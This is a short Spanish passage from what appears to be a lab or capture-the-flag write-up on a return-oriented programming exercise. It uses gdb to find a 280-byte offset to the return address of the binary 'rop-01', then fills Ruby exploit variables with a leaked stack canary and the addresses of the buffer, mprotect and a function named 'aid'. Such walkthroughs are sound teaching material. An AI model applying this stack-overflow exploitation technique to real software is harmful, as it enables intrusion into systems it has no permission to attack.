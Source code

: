 

Con gdb determinamos que la distancia en bytes desde el inicio del buffer hasta la dirección de retorno es de 0x118 (280) bytes. Por lo tanto reemplazamos

```ruby
bytes_until_ret = 0x118
```

Para completar el resto de los valores debemos ejecutar el programa. Ejecutamos entonces rop-01:

```bash
./rop-01
```

![run](img/run.png)

Tenemos entonces que

```ruby
# Completar con el valor del canario
canary = 0x13095817affa0f00

# Completar con la dirección del buffer
addr_buffer = 0x7ffd3987a240

# Completar con la dirección de mprotect
addr_mprotect = 0x7feb50142ae0

# Completar con la dirección de aid
addr_aid = 0x555aaceac85a
```

